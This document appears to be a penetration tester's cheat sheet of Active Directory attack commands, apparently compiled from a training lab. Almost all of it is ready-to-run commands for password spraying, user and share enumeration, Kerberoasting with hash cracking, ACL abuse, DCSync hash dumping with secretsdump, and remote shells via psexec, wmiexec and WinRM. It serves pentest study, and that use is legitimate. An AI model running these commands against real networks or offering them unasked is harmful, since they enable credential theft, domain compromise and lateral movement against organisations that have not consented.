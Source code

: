 ## Scanning, Enumeration, Recon, External
## Initial Access

Enumerate users and spray passwords. Look for creds.

Scan for live hosts on network
```
fping -asgq sub.net.ip/24
```

Kerbrute for internal AD username enumeration
```
sudo git clone https://github.com/ropnop/kerbrute.git
sudo make all
kerbrute userenum -d <domain.local> --dc <domain.ip.number> <usernametextfile-to-test> -o valid_ad_users.txt
```

Kerbrute can be used to password spray
```
/kerbrute_linux_amd64 passwordspray -d <lab.ropnop.com> <domain_users.txt> <Password123>
```

Password spray with Crackmapexec
```
crackmapexec smb <domain.ip> -u <user.list> -p <Password-to-try> //use --local-auth hen trying a local admin account
```

Windows domain spray internally - https://github.com/dafthack/DomainPasswordSpray
```
import-module domainpasswordspray.ps1
invoke-DomainPasswordSpray -password <password-to-try> -outfile <output.file> -errorAction silentlycontinue
```

Link for Kerbrute - https://github.com/ropnop/kerbrute

List of usernames - https://github.com/insidetrust/statistically-likely-usernames

Enumerate Password Policy with CME
```
crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol
crackmapexec smb 172.16.5.5 --users
```

rpcclient to check a Domain Controller for SMB NULL session access
```
rpcclient -U "" -N <domain.ip>
then querydomaininfo to check password policy
Can also use enumdomusers command
```

enum3linux can enumerate windows hosts and domains
```
enum4linux -P <domain.ip>
enum4linux -U <domain.ip>  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```

enum4linux-ng is a rewrite and has additional features. -oA will output a JSON  and YAML file
```
enum4linux-ng -P <domain.ip> -oA save
```

Establish a null session on windows
```
net use \\DC01\ipc$ "" /u:""
```

LDAP anonymous binds allow unauthenticated attackers to retrieve information from the domain, such as a complete listing of users, groups, computers, user account attributes, and the domain password policy. From Linux.
```
ldapsearch -h <dc.ip> -x -b "DC=<domain-name>,DC=<LOCAL>" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
Getting users with LDAP Anonymous
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```

Windapsearch can be userd to enumerate users, DA
```
windapsearch.py --dc-ip <172.16.5.5> -u "" -U
python3 windapsearch.py --dc-ip <172.16.5.5> -u <username>@<domainname.local> -p password --da //find domain admins
python3 windapsearch.py --dc-ip <172.16.5.5> -u <username>@<domainname.local> -p password -PU //find privileged users

```

## Internal enumeration - Services, Accounts, Security Controls

Credentialed enumeration - We're interested in information about domain user and computer attributes, group membership, Group Policy Objects, permissions, ACLs, trusts, and more.

Crackmapexec for credentialed enumeration
```
sudo crackmapexec smb <domain.controller.ip> -u <username> -p <password> --users
sudo crackmapexec smb <domain.controller.ip> -u <username> -p <password> --groups
sudo crackmapexec smb <domain.controller.ip> -u <username> -p <password> --loggedon-users
sudo crackmapexec smb <domain.controller.ip> -u <username> -p <password> --shares
sudo crackmapexec smb <domain.controller.ip> -u <username> -p <password> -M spider_plus --share "Share name" //CME will write results into a json file at /tmp/cme_spider_plus/<ip of host>
```

SMBmap can be used to enumerate shares
```
smbmap -u <username> -p <password> -d <domainName.LOCAL> -H <domain.controller.ip>
smbmap -u <username> -p <password> -d <domainName.LOCAL> -H <domain.controller.ip> -R <Name of share> --dir-only //Recursively list directories
```

Impacket toolset
```
psexec.py <domainName.local>/<username>:<'password'>@<target.ip> //psexec requires a user with local admin privileges
wmiexec.py <domainName.local>/<username>:<'password'>@<target.ip> //not a fully interactive shell
```

Bloodhound - Once domain creds are obtained, you can run bloodhound - https://github.com/dirkjanm/BloodHound.py. Clone the repo then ```pip install .```
```
sudo bloodhound-python -u <'username'> -p <'password'> -ns <172.16.5.5> -d <domainname.local> -c all
sudo neo4j start
bloodhound
```

Credentialed Enumeration with Powershell
```
Import-Module ActiveDirectory
Get-ADDomain
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName //This will get us a listing of accounts that may be susceptible to a Kerberoasting attack
Get-ADGroup -Filter * | select name
```

Snaffler is a tool that can help us acquire credentials or other sensitive data in an Active Directory environment. - https://github.com/SnaffCon/Snaffler
```
snffler.exe
```

Kerberoasting from Linux
```
GetUserSPNs.py -dc-ip <172.16.5.5> <domain.LOCAL>/<user> -request
GetUserSPNs.py -dc-ip <172.16.5.5> <domain.LOCAL>/<user> -request-user <any-user> -outputfile <text-file-name>
hashcat -m 13100 <text-file-name> /usr/share/wordlists/rockyou.txt 
```

Powerview to extract TGS Tickets - https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
```
Import-module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname //list all users with SPN
Get-DomainUser -Identity <user-from-list> | Get-DomainSPNTicket -Format Hashcat
```

Kerberoasting with Rubeus - https://github.com/GhostPack/Rubeus
```
Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap //Request tickets for accounts with admincount attribute set to 1
/tgtdeleg flag will only request RC4 tickets
```

Access Control List
```
ForceChangePassword - gives us the right to reset a user's password without first knowing their password (should be used cautiously and typically best to consult our client before resetting passwords).

GenericWrite - gives us the right to write to any non-protected attribute on an object. If we have this access over a user, we could assign them an SPN and perform a Kerberoasting attack (which relies on the target account having a weak password set). Over a group means we could add ourselves or another security principal to a given group. Finally, if we have this access over a computer object, we could perform a resource-based constrained delegation attack which is outside the scope of this module.
AddSelf - shows security groups that a user can add themselves to.

GenericAll - this grants us full control over a target object. Again, depending on if this is granted over a user or group, we could modify group membership, force change a password, or perform a targeted Kerberoasting attack. If we have this access over a computer object and the Local Administrator Password Solution (LAPS) is in use in the environment, we can read the LAPS password and gain local admin access to the machine which may aid us in lateral movement or privilege escalation in the domain if we can obtain privileged controls or gain some sort of privileged access
```

ACL Enumeration with Powerview //Guids https://learn.microsoft.com/en-us/windows/win32/adschema/r-user-force-change-password //ResolveGUIDs flag will print guid as human-readable
```
Find-InterestingDomainAcl
Import-Module Powerview.ps1
$sid = Convert-NameToSid <name>
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid} 
```

DSync - You must have (a user with the Replicating Directory Changes and Replicating Directory Changes All permissions set.
```
Get-DomainUser -Identity <domain-user-with-replication-rights>  |select samaccountname,objectsid,memberof,useraccountcontrol |fl
$sid= "<S-1-5-21-SID-OF-USER-FROM-LAST-COMMAND>"
import-module Powerview.ps1
Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl //checks to make sure the user has the rights.

from a linux box
secretsdump.py -outputfile hashes.txt -just-dc INLANEFREIGHT/<user-with-replication-rights-@<172.16.5.5>
```

Establish winrm sessions from windows 
```
$password = ConvertTo-SecureString "<known-password-of-a-domain-user>" -AsPlainText -Force
$cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\<name-of-domain-user>", $password)
Enter-PSSession -ComputerName <Name-of-computer-to-enter> -Credential $cred
```
